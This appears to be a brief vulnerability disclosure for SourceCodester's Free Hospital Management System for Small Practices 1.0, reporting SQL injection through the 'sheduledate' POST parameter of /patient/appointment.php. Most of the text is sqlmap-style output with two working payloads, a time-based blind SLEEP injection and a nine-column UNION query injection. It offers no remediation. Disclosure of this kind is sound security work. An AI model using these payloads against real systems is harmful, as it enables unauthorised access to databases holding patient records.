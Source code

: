 https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
![Alt text](image.png)

A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file /patient/appointment.php

The manipulation of the argument: sheduledate

---
Parameter: sheduledate (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sheduledate=2023-08-24' AND (SELECT 7187 FROM (SELECT(SLEEP(5)))sIsM) AND 'mPuB'='mPuB

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: sheduledate=2023-08-24' UNION ALL SELECT 43,43,43,43,43,43,43,CONCAT(0x7170717a71,0x716e716574505a584f787954516777664772734e566b676d717a45666e65774d5a554250687a6748,0x71626b7871),43-- -
---